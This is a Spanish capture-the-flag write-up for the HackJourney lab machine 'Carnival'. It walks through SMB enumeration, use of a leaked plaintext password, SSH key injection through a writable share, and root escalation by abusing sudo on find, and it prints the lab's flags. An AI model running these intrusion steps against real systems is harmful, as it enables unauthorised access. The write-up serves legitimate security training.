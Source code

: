 # Manual de Resolución - Máquina "Carnival"

---

**Este write-up forma parte del laboratorio de HackJourney. Para más información, visita [www.hackjourney.com](https://www.hackjourney.com)**

# 🧬 1. **Reconocimiento**

### 🔍 Escaneo de puertos:
```bash
sudo nmap 10.10.56.58 -n -Pn -sC -sV -sS --min-rate 5000 -oN scan1.txt
```

### 🌟 Resultados principales:
| Puerto | Servicio | Versión                       |
|:------:|:--------:|:-----------------------------:|
| 22/tcp | SSH      | OpenSSH 7.9p1 Debian 10         |
| 139/tcp | Samba   | Samba 3.X - 4.X (WORKGROUP)     |
| 445/tcp | Samba   | Samba 4.9.5-Debian              |

---

# 🧬 2. **Enumeración**

### 🔎 Enumeración de recursos SMB:
```bash
smbclient -L \\10.10.56.58\\ -N
```

👌 Shares encontrados:
- `private`
- `pedro`
- `IPC$` (por defecto)

### 📂 Acceso a share `private`:
```bash
smbclient \\\\10.10.56.58\\private -N
```

Archivo encontrado:
- `creds.bak`

Descargado con:
```bash
get creds.bak
```

Contenido:
```
n0m30olv1d0123!
```

---

# 🧬 3. **Explotación inicial**

### 🚪 Acceso al share `pedro`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
```

Archivos encontrados:
- `.bash_logout`
- `.bashrc`
- `.profile`
- `user.txt` (**primer flag**)

Descarga masiva:
```bash
prompt OFF
mget *
```

Flag `user.txt`:
```
ab740cf8182f14d13f608e372a697bb1
```

---

# 🧬 4. **Movimiento lateral**

### 🔒 Intento de acceso SSH:
```bash
ssh pedro@10.10.56.58
```

Resultado: ❌ `Permission denied (publickey)`

---

# 🧬 5. **Estrategia alternativa (Key Injection)**

### 🔑 Creación de par de claves SSH:
```bash
ssh-keygen -t rsa -b 4096 -f carnival_pedro_key
```

Preparación de `authorized_keys`:
```bash
cp carnival_pedro_key.pub authorized_keys
```

Subida mediante `smbclient`:
```bash
smbclient \\\\10.10.56.58\\pedro -U pedro
put authorized_keys
```

---

# 🧬 6. **Acceso SSH exitoso**

Conexión usando clave privada:
```bash
ssh -i carnival_pedro_key pedro@10.10.56.58
```

Resultado: ✅ Shell como `pedro`.

---

# 🧬 7. **Escalada de privilegios**

### 🔍 Enumeración de permisos sudo:
```bash
sudo -l
```

Resultado:
```
(ALL) NOPASSWD: /usr/bin/find
```

### 🚀 Escalada utilizando `find`:
```bash
sudo /usr/bin/find . -exec /bin/bash \;
```

Verificación:
```bash
whoami
# Resultado: root
```

---

# 🧬 8. **Captura de bandera de root**

### 📂 Navegación hacia `/root/`:
```bash
cd /root
ls
cat root.txt
```

Flag `root.txt`:
```
25b5d447d35f3323f711a741cc80c2e2
```

---

# 🌿 Resumen general

| Fase                         | Resultado alcanzado             |
|:-----------------------------:|:-------------------------------:|
| **Reconocimiento**            | Descubrimiento de servicios.    |
| **Enumeración**               | Acceso anónimo en SMB.           |
| **Explotación inicial**       | Credenciales extraídas.          |
| **Movimiento lateral**        | Inyección de clave SSH.          |
| **Acceso usuario**            | Shell como `pedro`.              |
| **Escalada de privilegios**   | Root mediante abuso de `find`.   |
| **Captura de flags**          | `user.txt` y `root.txt` capturadas. |

---

# 🔢 Conclusión

Esta máquina demostró la importancia de:
- Configuración segura de shares de Samba.
- Protección de credenciales sensibles.
- Restricción adecuada de comandos `sudo`.
- Correcta gestión de llaves SSH.

